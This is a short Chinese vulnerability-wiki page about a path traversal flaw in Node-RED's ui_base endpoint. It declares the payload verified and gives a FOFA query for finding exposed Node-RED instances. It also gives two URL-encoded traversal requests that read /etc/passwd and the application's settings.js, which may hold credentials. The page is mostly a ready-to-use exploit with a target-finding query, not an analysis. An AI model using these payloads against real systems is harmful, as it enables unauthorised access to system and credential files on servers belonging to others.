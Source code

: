 <languages />

<center>
|:-:|:-:|
|![](Check.png "Check.png")|**<translate>該漏洞已通過驗證</translate>**

* * * * *

<small><translate>本頁面的EXP/POC/Payload經測試可用，漏洞已經成功復現。</translate></small>|

</center>
<translate>

漏洞影響
--------

</translate> Node-RED

FOFA
----

    title="Node-RED"

POC
---

    /ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
    /ui_base/js/..%2f..%2f..%2f..%2fsettings.js

<translate>

參考
----

</translate> <https://mp.weixin.qq.com/s/KRGKXAJQawXl88RBPTaAeg>